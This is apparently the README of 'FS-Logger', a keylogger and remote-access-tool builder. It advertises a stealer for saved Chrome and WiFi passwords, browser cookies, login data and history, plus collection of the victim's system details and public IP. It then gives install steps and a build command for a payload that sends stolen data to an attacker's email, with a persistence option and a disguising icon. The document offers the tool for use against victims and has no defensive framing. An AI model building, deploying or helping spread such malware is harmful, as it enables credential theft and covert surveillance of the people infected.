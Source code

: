 | Built-in Stealer Can Steal These Things : |
| ----------------------------------------------------------- |
| Chrome Browser (Saved Password) |
| WiFi (Saved Password) |
| Chrome Cookies (Login Data, Cookies, History) |
| Firefox Cookies (cookies.sqlite) |
#### Note: Custom Stealer is Coded, does not relies on LaZagne

- [x] Grabs & Send Useful Information of Victim's Device

| These Things are Grabbed & Sended: |
| -----------------------------------|
| Operating System |
| Computer Name    |
| User Name |
| Public IPv4 |

## Tested On
[![Kali)](https://www.google.com/s2/favicons?domain=https://www.kali.org/)](https://www.kali.org) **Kali Linux - ROLLING EDITION**

[![Windows)](https://www.google.com/s2/favicons?domain=https://www.microsoft.com/en-in/windows/)](https://www.microsoft.com/en-in/windows/) **Windows 10 - Pro**

## Prerequisite
- [x] Python 3.X

## How To Use in Linux
```bash
# Navigate to the /opt directory (optional)
$ cd /opt/

# Clone this repository
$ git clone https://github.com/F-Society-Official/FS-Logger.git

# Navigate to FS-Logger folder
$ cd FS-Logger

# Installing dependencies
$ bash installer_linux.sh

*** Note When The Python Installer DialogBox Appear while executing installer_linux.sh ***
    * Click on custom install 
    * Select Path to : C:/Python37-32
    ### So that the python is installed in this path (Inside Wine) : ~/.wine/drive_c/Python37-32

# If you are getting any errors while executing installer_linux.sh, try to install using installer_linux.py
$ python3 installer_linux.py

$ chmod +x fslogger.py
$ python3 fslogger.py --help

# Making Payload/RAT
$ python3 fslogger.py -e youremail@gmail.com -p YourEmailPass -i Interval -t TIME_PERSISTENT -s -o output_file_name --icon icon_path
```
